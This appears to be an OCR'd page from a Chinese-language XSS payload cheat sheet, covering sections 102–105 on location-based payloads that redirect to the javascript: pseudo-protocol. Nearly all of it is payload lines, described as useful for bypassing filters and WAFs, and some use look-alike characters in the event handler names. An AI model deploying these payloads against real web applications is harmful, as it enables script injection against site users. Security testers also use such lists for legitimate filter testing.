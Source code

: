 ```
下面的XSS payload使用一种更详细的方法来执行负载，使用文档属性来提供另一个文档属性，即位置属性。这就产生了复杂的向量，对于绕过滤器和waf非常有用。因为它们使用任意标记（XHTML），所以可以使用前面看到的任何未知的事件处理程序。这里，"onmouseover"将用作默认值。在URL中将加号（＋）编码为%2B。

```

##### 102.Location Basics (位置基础知识)

```
payload与更简单的操作，以实现重定向到javascript伪协议。 

<j/οnmοuseοver=location=innerHTML>javascript:alert(1)//
<iframe id=t:alert(1) name=javascrip οnlοad=location=name+id>
```

##### 103.Location with URL Fragment (包含URL片段的位置)

```
如果在POST请求中需要使用带有未编码符号的payload。，URL必须在操作URL中使用片段。

<javascript/οnmοuseοver=location=tagName+innerHTML+location.hash>:/*hoverme!
</javascript>#*/alert(1)
<javascript/οnmοuseοver=location=tagName+innerHTML+location.hash>:'hoverme!
</javascript>#'-alert(1)
<javascript:'-`/οnmοuseοver=location=tagName+URL>hoverme!#`-alert(1)
<j/οnmοuseοver=location=innerHTML+URL>javascript:'-`hoverme!</j>#`-alert(1)
<javas/οnmοuseοver=location=tagName+innerHTML+URL>cript:'-`hoverme!</javas>
#`-alert(1)
<javascript:/οnmοuseοver=location=tagName+URL>hoverme!#%0Aalert(1)
<j/οnmοuseοver=location=innerHTML+URL>javascript:</j>#%0Aalert(1)
<javas/οnmοuseοver=location=tagName+innerHTML+URL>cript:</javas>#%0Aalert(1)
```

##### 104.Location with Leading Alert (最重要的弹窗位置)

```

`-alert(1)<javascript:`/
οnmοuseοver=location=tagName+previousSibling.nodeValue>hoverme!
`-alert(1)<javas/
οnmοuseοver=location=tagName+innerHTML+previousSibling.nodeValue>cript:`hoverme!
<alert(1)<!--/οnmοuseοver=location=innerHTML+outerHTML>javascript:1/*hoverme!*/
</alert(1)<!-->
<j/1="*/""-alert(1)<!--/οnmοuseοver=location=innerHTML+outerHTML>
javascript:/*hoverme!
*/"<j/1=/alert(1)//οnmοuseοver=location=innerHTML+
previousSibling.nodeValue+outerHTML>javascript:/*hoverme!
```

##### 105.Location with Self URL (last is FF Only) (具有self URL的位置（最后一个仅限FF）)

```
以下payload需要用使用输入的易受攻击的参数替换[P}。在URL中将&编码为%26。

<svg id=?[P]=<svg/οnlοad=alert(1)+ οnlοad=location=id>
<j/οnmοuseοver=location=textContent>?[P]=<svg/οnlοad=alert(1)>hoverme!</j>
<j/οnmοuseοver=location+=textContent>&[P]=<svg/οnlοad=alert(1)>hoverme!</j>
<j&[P]=<svg+οnlοad=alert(1)/οnmοuseοver=location+=outerHTML>hoverme!
</j&[P]=<svg+οnlοad=alert(1)>
&[P]=<svg/οnlοad=alert(1)><j/
οnmοuseοver=location+=document.body.textContent>hoverme!</j>
```
